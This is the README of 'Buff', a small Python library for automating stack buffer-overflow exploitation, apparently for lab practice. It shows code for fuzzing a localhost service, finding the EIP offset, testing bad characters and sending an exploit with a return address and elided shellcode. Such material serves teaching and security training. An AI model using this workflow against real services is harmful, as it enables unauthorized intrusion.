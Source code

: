<h1 align="center">What is Buff?</h1>  


<p align="center">
    <img src="https://raw.githubusercontent.com/the-robot/buff/master/images/guy.png" | width=200>
</p>

<p align="center">A simple BOF library I wrote under an hour to help me automate with BOF attack.</p>
<p align="center">It comes with fuzzer and a generic method to generate exploit easily.</p>

<br/>

> Not all the methods are documented yet as I do not have time now. Feel free to read the code, it's very small code-base anyway :)

# Usage

I made a [template as well](https://github.com/the-robot/buff/blob/master/examples/template.py).

## Setup Runner
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "", postfix = "")
```

## Fuzzer
```python
runner.fuzz()

# you can set timeout, step_size, and sleep seconds
runner.fuzz(timeout = 5, step_size = 1000, sleep = 3)

# use custom fuzzer
def fuzzer(target: (str, int), timeout: int, prefix: str = "", postfix: str = "", step_size: int = 100, sleep: int = 1) -> None:
    ...

runner.setFuzzer(fuzzer)
```

## Custom Sender
This `sender` method is used by `sendPattern`, `sendBadChars` and `sendExploit` methods.  
You can look [SLmail example](https://github.com/the-robot/buff/tree/master/examples/slmail) for custom fuzzer and sender methods usage.

```python
# custom sender method
def sender(target: (str, int), buffer: str) -> None:
    ...

runner.setSender(sender)
```


## Sending Pattern
```python
runner.sendPattern()
```

## Finding Pattern Offset
```python
BUFFER_SIZE = 2400
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "386F4337")
print(offset)
```

## Sending Bad Characters
```python
runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()

# you can also exclude by
runner.sendBadChars(exclude = ["\x42", "\x43"])

# change default EIP placeholder
runner.sendBadChars(fake_eip = "\x44\x44\x44\x44")
```

## Sending Exploit
```python
# Set buffer size
runner.setBufferSize(2400)

# Set EIP offset
runner.setEipOffset(1978)

# Set return address
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

# Set padding
runner.setPaddingSize(16)

# Set exploit
exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

runner.sendExploit()
```
